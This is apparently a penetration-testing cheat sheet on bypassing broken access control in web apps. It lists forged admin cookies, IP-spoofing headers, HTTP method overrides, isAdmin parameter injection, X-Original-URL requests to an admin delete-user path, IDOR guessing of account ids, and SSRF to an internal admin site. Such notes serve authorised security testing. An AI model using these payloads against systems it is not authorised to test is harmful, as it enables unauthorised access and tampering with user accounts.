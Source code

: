 ```yaml
---
title: Broken Access Control
description: The attacking methodology of broken access control in web applications. If we got 401 or 403 HTTP response, try to bypass it using the following methods in this post.
tags:
    - Web
refs:
date: 2023-05-17
draft: false
---
```


## Change Header Values

### Cookie

We may be able to get access to the login-required pages.

```txt
Cookie: admin=true
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
```

<br />

### IP Spoofing

```txt
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```

<br />

### User Agent

Sometimes we can access another server by replacing the User Agent with the specific one.

```bash
User-Agent: <custom_user_agent>
```

<br /><br />

## Change Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br /><br />

## POST Parameters

```sh
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

### X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br /><br />

## GET Parameters

```sh
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

<br /><br />

## Access Page via SSRF

If there is another website that is owned by same orginazation, we may be able to see the target website with SSRF.

```bash
https://example.com?url=https://admin.example.com/
```